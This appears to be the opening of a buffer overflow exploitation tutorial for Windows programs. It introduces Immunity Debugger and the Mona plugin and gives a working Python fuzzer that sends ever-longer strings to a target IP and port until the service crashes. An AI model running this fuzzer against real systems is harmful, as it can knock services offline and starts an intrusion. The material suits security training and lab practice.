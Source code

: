 - **Immunity Debugger**: A debugger for analyzing and exploiting Windows applications.
- **Mona**: A Python script for Immunity Debugger to assist with buffer overflow exploitation (e.g., pattern generation, bad character analysis).

## Buffer Overflow Process

### Launching Immunity Debugger

1. Open Immunity Debugger and load the target .exe file:
   - File > Open or File > Attach to the process.

### Configuring Mona

1. Run Mona commands in the Immunity Debugger terminal (red rectangle).
2. Set the working directory:
```
!mona config -set workingfolder c:\mona\%p
```

### Fuzzing the Application

Use a fuzzer script to crash the application.

**fuzzer.py**:
```python
import socket, time, sys

IP = "<IP>"
PORT = <PORT>
timeout = 5

buffer = []
counter = 100
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100

for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((IP, PORT))
        s.recv(1024)
        print("Fuzzing with %s bytes" % len(string))
        s.send(string)
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + IP + ":" + str(PORT))
        sys.exit(0)
    time.sleep(1)
```

